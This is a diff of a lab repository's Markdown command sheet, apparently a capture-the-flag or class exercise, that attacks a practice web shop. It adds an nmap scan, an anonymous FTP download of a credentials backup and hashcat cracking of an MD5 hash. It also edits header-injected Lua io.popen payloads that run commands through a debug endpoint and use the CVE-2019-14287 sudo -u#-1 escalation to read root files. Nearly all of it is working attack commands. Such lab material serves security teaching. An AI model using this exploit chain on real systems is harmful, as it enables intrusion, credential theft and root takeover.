

Before and after one commit to reyliou/412630567-Lab, a Markdown page: all_command.md, 2 parts joined by grey strips. Shown at 89% size. GitHub-like rendering; some formulas as TeX source; blank space fills up the shorter version.

Commit message:
Fix: Synchronize phase 1 commands with nmap/ftp/hashcat and fix jcurl alias usage

````diff
--- a/all_command.md
+++ b/all_command.md
@@ -6,7 +6,7 @@
 ## 環境設定
 
 ```bash
-# TARGET為攻擊機IP
+# TARGET為靶機IP，這是我的別搞我
 $TARGET
 export TARGET=192.168.17.133
 
@@ -17,18 +17,34 @@ alias jcurl='curl -s | python3 -c "import sys,json; d=json.load(sys.stdin); prin
 
 ---
 
-find /usr/share/wordlists/ -name "rockyou*" 找到rockyou路徑
-awk 'length($0) <= 10 && /^[a-z]+$/' /usr/share/wordlists/rockyou.txt > /home/kali/wordlist.txt
-
 
 ## 第一階段：資訊挖掘
 
 ```bash
+# 掃描目標開放服務
+nmap -p 21,8080,8081 -sV $TARGET
+
 # BOLA - 存取隱藏商品 id=0
 jcurl http://$TARGET:8080/api/products/0
 
 # 查看 /system-status/ 原始碼，找 HTML 註解中的 debug 介面線索
 curl -s http://$TARGET:8080/system-status/
+
+# 匿名 FTP 登入，下載憑證備份
+ftp -n $TARGET 21 <<EOF
+user anonymous anonymous
+get backup_logs/credentials.bak
+bye
+EOF
+cat credentials.bak
+
+# 破解 guest 的 MD5 雜湊
+# 提示：雜湊為 FCF41657F02F88137A1BCF068A32C0A3
+find /usr/share/wordlists/ -name "rockyou*"
+# 建立過濾後的字典以加速破解
+awk 'length($0) <= 10 && /^[a-z]+$/' /usr/share/wordlists/rockyou.txt > wordlist.txt
+hashcat -m 0 FCF41657F02F88137A1BCF068A32C0A3 wordlist.txt
+# 破解結果：guest123
 ```
 
 ---
@@ -116,7 +132,7 @@ curl -s -H 'X-NEO-DEBUG: ngx.say(io.popen("curl -s -X POST http://neo-mall:8080/
   http://$TARGET:8080/api/debug-system
 
 # CVE-2019-14287 確認提權成功
-curl -s -H 'X-NEO-DEBUG: ngx.say(io.popen("curl -s -X POST http://neo-mall:8080/api/seller/diag -H \"Content-Type: application/json\" -d \"{\\\"command\\\":\\\"sudo -u#-1 id\\\"}\""):read("*a"))' \
+curl -s -H 'X-NEO-DEBUG: ngx.say(io.popen("curl -s -X POST http://neo-mall:8080/api/seller/diag -H \"Content-Type: application/json\" -d \"{\\\"command\\\":\\\"sudo -u#-1 /bin/bash -c id\\\"}\""):read("*a"))' \
   http://$TARGET:8080/api/debug-system
 ```
 
@@ -126,14 +142,14 @@ curl -s -H 'X-NEO-DEBUG: ngx.say(io.popen("curl -s -X POST http://neo-mall:8080/
 
 ```bash
 # 生成 Flag（學號換成自己的）
-curl -s -H 'X-NEO-DEBUG: ngx.say(io.popen("curl -s -X POST http://neo-mall:8080/api/seller/diag -H \"Content-Type: application/json\" -d \"{\\\"command\\\":\\\"sudo -u#-1 /root/flag.sh 你的學號\\\"}\""):read("*a"))' \
+jcurl -H 'X-NEO-DEBUG: ngx.say(io.popen("curl -s -X POST http://neo-mall:8080/api/seller/diag -H \"Content-Type: application/json\" -d \"{\\\"command\\\":\\\"sudo -u#-1 /root/flag.sh 你的學號\\\"}\""):read("*a"))' \
   http://$TARGET:8080/api/debug-system
 
 # 讀取 Root Flag
-curl -s -H 'X-NEO-DEBUG: ngx.say(io.popen("curl -s -X POST http://neo-mall:8080/api/seller/diag -H \"Content-Type: application/json\" -d \"{\\\"command\\\":\\\"sudo -u#-1 /bin/bash -c \\\\\\\"cat /root/root_flag.txt\\\\\\\"\\\"}\""):read("*a"))' \
+jcurl -H 'X-NEO-DEBUG: ngx.say(io.popen("curl -s -X POST http://neo-mall:8080/api/seller/diag -H \"Content-Type: application/json\" -d \"{\\\"command\\\":\\\"sudo -u#-1 /bin/bash -c \\\\\\\"cat /root/root_flag.txt\\\\\\\"\\\"}\""):read("*a"))' \
   http://$TARGET:8080/api/debug-system
 
 # 讀取 User Flag
-curl -s -H 'X-NEO-DEBUG: ngx.say(io.popen("curl -s -X POST http://neo-mall:8080/api/seller/diag -H \"Content-Type: application/json\" -d \"{\\\"command\\\":\\\"cat /home/neo-user/user_flag.txt\\\"}\""):read("*a"))' \
+jcurl -H 'X-NEO-DEBUG: ngx.say(io.popen("curl -s -X POST http://neo-mall:8080/api/seller/diag -H \"Content-Type: application/json\" -d \"{\\\"command\\\":\\\"cat /home/neo-user/user_flag.txt\\\"}\""):read("*a"))' \
   http://$TARGET:8080/api/debug-system
 ```
````
